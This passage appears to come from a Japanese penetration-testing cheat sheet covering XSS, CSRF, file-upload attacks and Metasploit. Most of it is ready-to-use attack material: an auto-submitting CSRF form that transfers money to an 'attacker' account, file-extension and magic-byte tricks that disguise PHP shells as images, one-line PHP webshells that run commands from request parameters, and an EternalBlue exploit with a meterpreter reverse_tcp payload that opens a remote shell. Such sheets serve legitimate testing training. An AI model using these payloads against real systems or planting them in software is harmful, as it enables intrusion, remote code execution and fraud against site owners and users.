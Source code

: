 **Stored XSS:**
ユーザー入力が保存され、他のユーザーに表示される

**DOM XSS:**
JavaScriptでDOMを直接操作する脆弱性

**XSStrike:**

```bash
xsstrike -u "http://target.com/search?q=test"
```

### CSRF（Cross-Site Request Forgery）

PoC例:

```html
<html>
  <body>
    <form action="http://target.com/transfer" method="POST">
      <input type="hidden" name="to" value="attacker" />
      <input type="hidden" name="amount" value="1000" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

### ファイルアップロード脆弱性

```bash
# バイパス手法
shell.php.jpg      # 拡張子偽装
shell.pHp          # 大文字小文字
shell.php%00.jpg   # Null byte
shell.php;.jpg     # セミコロン

# Magic Bytes改ざん
# PNGヘッダー追加
echo -e '\x89PNG\r\n\x1a\n' > shell.php.png
cat shell_code.php >> shell.php.png

# Webshell例
<?php system($_GET['cmd']); ?>
<?php eval($_POST['code']); ?>
```

## ネットワーク侵入テスト

### Metasploit Framework

```bash
# msfconsole起動
msfconsole

# エクスプロイト検索
search ms17-010
search type:exploit platform:windows

# エクスプロイト使用
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.100
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.10
exploit
```